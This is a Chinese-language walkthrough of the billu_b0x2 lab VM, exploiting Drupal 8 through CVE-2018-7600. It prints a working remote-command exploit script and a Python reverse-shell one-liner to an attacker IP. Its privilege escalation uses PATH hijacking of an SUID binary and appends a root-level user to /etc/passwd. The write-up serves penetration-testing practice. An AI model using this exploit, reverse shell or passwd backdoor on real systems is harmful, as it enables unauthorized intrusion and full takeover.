

# 前言

靶机：`billu_b0x2`靶机，IP地址为`192.168.10.10`

攻击：`kali`，IP地址为`192.168.10.6`

靶机和攻击机都采用`VMware`虚拟机，都采用桥接网卡模式

> 文章涉及的靶机及工具，都可以自行访问官网或者项目地址进行获取，或者通过网盘链接下载  `https://pan.quark.cn/s/c524477461b0`

# 主机发现

也就是相当于现实环境中去发现确定主机的`ip`地址，因为这里是靶机环境，所以跳过了从域名到`ip`地址的过程。

使用`arp-scan -l`或者`netdiscovery -r 192.168.10.1/24`

当然也可以使用`nmap`等工具进行

```shell
arp-scan -l
```


# 信息收集

## 使用nmap扫描目标端口等信息

首先扫描目标的`tcp`端口的开放情况

```shell
nmap -sT --min-rate=1000 192.168.10.10 -p- -oA nmap-tcp
```


再扫描`udp`端口的开放情况

```shell
nmap -sU --min-rate=1000 192.168.10.10 --top-ports 20 -oA nmap-udp
```


可以看到明确开放的`udp`端口没有，所以下面对`tcp`端口进行一个筛选

```shell
ports=`grep open nmap-tcp.nmap | awk -F'/' '{print $1}' | paste -sd ','`
```


进一步对这些端口进行服务、系统等探测

```shell
nmap -sV -O -sC 192.168.10.10 -p $ports --min-rate=1000 -oA detail
```


再使用`nmap`的漏洞检测脚本对这些端口进行探测

```shell
nmap --script=vuln 192.168.10.10 -p $ports -oA vuln
```


## 网站信息探测

访问80端口界面，可以看到有搜索框，以及登录的


向下可以看到涉及到一个`cms`，为``drupal`，缅怀艾斯【火拳】


使用`whatweb`或者浏览器插件`wappalyzer`识别配置

```shell
whatweb http://192.168.10.10 -v
```




使用`gobuster`等工具进行爆破，发现就那么几个

```shell
gobuster dir -u http://192.168.10.10 -w /usr/share/wordlists/dirb/big.txt -b 404,403 -x php,html,txt,md
```


把这些目录都访问，没发现什么关键信息，并且访问`robots.txt`文件，虽然有很多目录，但是访问后，并没效果


在访问到登录的界面时，发现有一个默认的用户名`biLLu`和密码`hEx_it`


以上面的用户名和密码尝试访问8080端口的界面，并尝试登录，发现并不行

没有了，信息结合一下。

网站采用`drupal 8`版本

目前，只有字典继续爆破，采用大字典，或者搜索有无历史漏洞

# 漏洞寻找及确定

使用`searchsploit`尝试搜索

```shell
searchsploit drupal 8.0
```


发现大部分都是`msf`的脚本，不过还是有三个不一样的，这里一个个测试，先测试`44448.py`

查看这个代码，发现关键信息，这个脚本是检测目标是否有`cve-2018-7600`漏洞的


下面发现关键代码，若存在会输出一个文件


执行脚本进行检测靶机，发现输出检测了，访问这个文件，确定有漏洞


# 漏洞利用

既然如此，可以修改这个脚本去执行一些命令。`ok`，现在修改`payload`，在原基础上，只改动了一点，接收命令

```python
#!/usr/bin/env
import sys
import requests
import json

print ('################################################################')
print ('# Proof-Of-Concept for CVE-2018-7600')
print ('# by Vitalii Rudnykh')
print ('# Thanks by AlbinoDrought, RicterZ, FindYanot, CostelSalanders')
print ('# https://github.com/a2u/CVE-2018-7600')
print ('################################################################')
print ('Provided only for educational or information purposes\n')

target = input('Enter target url (example: https://domain.ltd/): ')
command = input('Enter command (example: id):') 

proxies = {}
verify = True

url = target + 'user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax'
payload = {'form_id': 'user_register_form', '_drupal_ajax': '1', 'mail[#post_render][]': 'exec', 'mail[#type]': 'markup', 'mail[#markup]': command}

r = requests.post(url, proxies=proxies, data=payload, verify=verify)
res = r.text

json_text=json.dumps(res,indent=4)
print(json_text)
```


那么构造一个反弹`shell`的命令，执行即可，测试多个命令，最终以`python`的反弹`shell`成功

```shell
export RHOST="192.168.10.6";export RPORT=443;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'
```


可以看到成功获取到`shell`了，当然前面需要进行`nc`监听就没说

# 提权

再使用`python`加一层`shell`

```shell
python -c 'import pty;pty.spawn("/bin/bash")'
```

使用`find`寻找具有SUID权限的文件，发现一个陌生的明显的文件

```shell
find / -perm -4000 -print 2>/dev/null
```


使用`file`查看，发现是二进制可执行文件，并且该文件具有执行的权限


测试，发现靶机具有`strings`工具，那么直接查看这个文件，发现一些东西


这里可以自己执行文件测试一下，发现最后是有字符`starting copy of root user files`出现的。说明后面的命令会执行，也就是`scp`，并且注意，这里没有搞绝对路径，所以可以借助环境变量提权

```shell
cd /tmp
echo $PATH
```


那么修改环境变量

```shell
export PATH=/tmp:$PATH
echo $PATH

echo "/bin/bash" > scp
chmod +x scp
```

然后执行脚本即可`/opt/s`


查看`/etc/passwd`的权限，发现该文件具有写权限的，那么就可以添加一个具有`root`权限的用户，需要构造

使用`openssl`生成密码

```shell
openssl passwd -salt 123 -1 123
```


```shell
#把x改为加密后的密码，root改为随便的用户名 
root:x:0:0:root:/root:/bin/bash

pig:$1$123$nE5gIYTYiF1PIXVOFjQaW/:0:0:test:/root:/bin/bash

echo 'pig:$1$123$nE5gIYTYiF1PIXVOFjQaW/:0:0:test:/root:/bin/bash' >> /etc/passwd
```

这时候直接切换就`ok`了


当然还有其他的，比如查看内核版本，确定是否有内核漏洞，这个很大的概率是有的

```shell
uname -r
cat /etc/*release
```


使用`searchsploit`发现还是有不少的


这里就不测试了，还可以通过上传脚本去检测，就不一一测试了。

# 总结

该靶机主要考察点在于`CVE-2018-7600`的检测与使用，主要就是`poc`的构造，这里要清楚的知道

